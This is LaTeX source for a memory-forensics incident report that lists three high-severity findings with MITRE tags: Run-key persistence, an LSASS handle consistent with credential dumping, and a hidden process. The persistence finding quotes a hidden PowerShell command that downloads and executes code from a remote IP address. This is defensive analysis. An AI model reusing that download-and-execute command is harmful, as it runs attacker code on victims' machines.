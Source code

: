 \documentclass[11pt,a4paper]{article}
\providecommand{\faExclamationTriangle}{!}%
\newcommand{\sev}[1]{%
  \ifstrequal{#1}{critical}{\colorbox{sevcrit}{\color{white}\textbf{\footnotesize CRITICAL}}}{%
  \ifstrequal{#1}{high}{\colorbox{sevhigh}{\color{white}\textbf{\footnotesize HIGH}}}{%
  \ifstrequal{#1}{medium}{\colorbox{sevmed}{\color{black}\textbf{\footnotesize MEDIUM}}}{%
  \ifstrequal{#1}{low}{\colorbox{sevlow}{\color{black}\textbf{\footnotesize LOW}}}{%
  \colorbox{slate}{\color{white}\textbf{\footnotesize INFO}}}}}}}
\newcommand{\mitre}[1]{\colorbox{accent!25}{\textcolor{ink}{\texttt{\footnotesize #1}}}}
\begin{document}
\begin{tcolorbox}[enhanced, breakable, colback=ink2!5, colframe=sevhigh,
                  boxrule=0.6pt, arc=2pt, left=8pt, right=8pt,
                  title={\bfseries \faExclamationTriangle\ Finding 3 — Persistence in Run key},
                  coltitle=white, colbacktitle=sevhigh]
\sev{high}\quad \mitre{T1547.001}\\[4pt]
\textbf{Plugin:} \texttt{windows.registry.printkey}\\
\texttt{HKCU\textbackslash Software\textbackslash Microsoft\textbackslash Windows\textbackslash CurrentVersion\textbackslash Run\textbackslash WinUpdate}
$=$ \texttt{powershell -w hidden -c "iex(New-Object Net.WebClient).DownloadString('http://185.220.101.42/u')"}
\end{tcolorbox}

\begin{tcolorbox}[enhanced, breakable, colback=ink2!5, colframe=sevhigh,
                  boxrule=0.6pt, arc=2pt, left=8pt, right=8pt,
                  title={\bfseries \faExclamationTriangle\ Finding 4 — LSASS handle from non-system process},
                  coltitle=white, colbacktitle=sevhigh]
\sev{high}\quad \mitre{T1003.001}\\[4pt]
\textbf{Plugin:} \texttt{windows.handles}\\
\texttt{powershell.exe} (PID 3168) holds a \emph{Process} handle to
\texttt{lsass.exe} — credential-dumping precursor.
\end{tcolorbox}

\begin{tcolorbox}[enhanced, breakable, colback=ink2!5, colframe=sevhigh,
                  boxrule=0.6pt, arc=2pt, left=8pt, right=8pt,
                  title={\bfseries \faExclamationTriangle\ Finding 5 — Hidden process},
                  coltitle=white, colbacktitle=sevhigh]
\sev{high}\quad \mitre{T1014} \mitre{T1055}\\[4pt]
\textbf{Plugin:} \emph{xview.process} (cross-plugin)\\
PID 4012 (\texttt{svchost.exe}) was found by \texttt{psscan} but is
\textbf{absent} from the \texttt{pslist} \texttt{ActiveProcessLinks}
walk — DKOM-style hiding.
\end{tcolorbox}

\subsection{Reconstructed attack chain}
\end{document}
